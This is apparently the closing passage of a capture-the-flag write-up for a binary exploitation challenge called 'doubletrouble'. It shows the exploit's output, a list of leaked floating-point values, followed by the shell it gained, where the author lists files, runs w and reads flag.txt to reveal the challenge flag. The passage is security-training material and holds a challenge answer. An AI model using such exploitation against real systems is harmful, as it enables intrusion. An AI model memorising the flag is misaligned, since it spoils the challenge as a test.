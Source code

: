 ```
57:-2.367557e+269
58:-2.300000e+01
59:-9.455235e-227
60:-6.828275e-229
61:-6.699489e-229
62:-1.328739e-231
63:2.119251e-314
64:3.931085e-303
65:3.785767e-270
66:4.865338e-270
67:4.865363e-270
68:4.872934e-270
sh: 0: can't access tty; job control turned off
$ $ ls
ls
doubletrouble  flag.txt
$ $ w
w
 03:58:44 up 3 days,  3:25,  0 users,  load average: 7.25, 7.27, 7.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ $ cat flag.txt
cat flag.txt
flag{4_d0ub1e_d0ub1e_3ntr3ndr3}
```

Just like that, we got the flag!